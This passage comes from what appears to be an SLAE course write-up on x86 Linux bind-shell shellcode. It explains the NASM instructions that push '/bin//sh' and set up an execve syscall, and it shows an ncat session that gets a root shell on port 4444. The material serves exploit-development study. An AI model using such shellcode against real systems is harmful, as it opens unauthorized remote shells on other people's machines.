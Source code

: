 EDX should still be zeroed, so we push this first to take care of the null terminator we need at the end of the executable path. Then we PUSH the path in reverse order, in little endian format. This means we've got to push the end of the string first and the bytes must be reversed as well. To aid in this, I've created a small utility that produces what we need to push for us. [It can be found here.](https://github.com/fbcsec/slae-assignments/blob/master/tools/reverse.py)

To illustrate:
```
hs// : 0x68732f2f
nib/ : 0x6e69622f
```

Notice that I've added an extra `/`. This is because the path did not cleanly fit into DWORDs for pushing onto the stack. Fortunately you can have an arbitrary number of slashes next to each other. So `///bin////sh` resolves to the same path as `/bin/sh`. 

Our string is now on the stack.

```nasm
mov ebx, esp
```

EBX needs to contain the pointer to this string, so we move ESP, which currently points to it, into EBX. 
```nasm
push edx       
mov edx, esp
```

We turn our attention to the envp array. We can make this array a single item with just a null, but we must still provide `execve(2)` with a pointer to it. So we PUSH EDX, which should still be nulled, and then move into EDX ESP. 


```nasm
push ebx       
mov ecx, esp   
mov al, 0x0b   
int 0x80
```

We take care of the argv array by pushing the address to the `/bin//sh` string to the stack and then moving esp (now a pointer to the argv array)to ecx. Finally setting the `execve(2)` syscall id in EAX and firing our final syscall. Anyone who connects to our bound port using something like `ncat` or `telnet` should be presented with a shell. 

It would look something like this:   

```
$ ncat -nv 172.16.1.127 4444
Ncat: Version 7.60 ( https://nmap.org/ncat )
Ncat: Connected to 172.16.1.127:4444.
id
uid=0(root) gid=0(root) groups=0(root)
```

##Final Notes

Below is the full and commented source for the shellcode plus a python wrapper I wrote to set the port in the shellcode. It should be able to handle generating a payload that binds to any valid port number (1-65535).  
